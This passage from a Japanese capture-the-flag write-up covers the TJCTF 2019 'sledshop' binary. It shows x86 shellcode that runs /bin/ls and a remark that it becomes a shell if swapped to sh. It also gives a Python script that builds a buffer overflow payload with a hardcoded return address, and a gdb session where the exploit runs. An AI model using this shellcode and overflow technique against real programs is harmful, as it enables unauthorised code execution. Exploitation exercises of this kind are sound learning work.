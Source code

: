 ### シェルコードの送り込み&実行

今度はシェルコードを送り込む。
まずは動作結果が分かりやすいlsが実行できるシェルコードを作成。
lsの良いところはshに変えればシェルにも変わるところ。
シェルコードを置ける位置を`0xffffd430`と確認して、攻撃用文字列を吐く`make_string002.py`を作成、gdb上で動作確認。
行った。
正直ここでもうこの問題は終わったと思っていました．．．

```python
b"\x68\x2f\x6c\x73\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"
```

```python: make_string002.py
import sys

shellcode_ls = b"\x68\x2f\x6c\x73\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sys.stdout.buffer.write(b"A" * 20 + shellcode_ls + b"B" * 35 + b"\x30\xd4\xff\xff\n")


```

```bash-statement
$ python make_string002.py > exploit002.txt
```

```bash-statement
gef➤ run < wu_exploit002.txt
Starting program: /home/saru/wani-writeup/2019/04-tjctf/bin-silly-sledshop/sledshop < wu_exploit002.txt
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we are closed.
process 29638 is executing new program: /bin/ls
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
a.out
attack.sh
exploit001.txt
[Inferior 1 (process 29638) exited normally]
gef➤  
```

### ASLRとの戦い

まずは動いたコードを使ってexploit「`solve001.py`」を書いてみたけどまぁこれは予想通りシェルは取れない。
gdb上での実行と実際の実行では環境変数などへの影響でスタックに積まれているデータが変わってアドレスも変わってしまうことを知っていたのでこれはまぁそうかなと納得。
